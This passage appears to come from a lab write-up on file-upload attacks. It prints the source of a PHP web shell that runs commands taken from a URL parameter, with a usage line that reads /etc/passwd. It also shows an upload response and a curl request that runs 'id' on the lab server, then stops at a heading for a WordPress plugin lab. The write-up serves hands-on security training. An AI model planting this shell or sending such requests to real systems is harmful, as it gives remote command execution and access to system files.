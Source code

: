 ```http
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>📌

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->

-----------------------------30586794552660421611961380276--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 14:25:21 GMT
Server: Apache
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4073



<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	     <a href='uploads/test.jpg'>File Uploaded Succesfully</a>📌                    </div>

[...]
```

`curl 'https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/uploads/simple-backdoor.php7?cmd=id'`:
```html
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>🚩
```

### WordPress wpStoreCart File Upload

#### Lab Environment
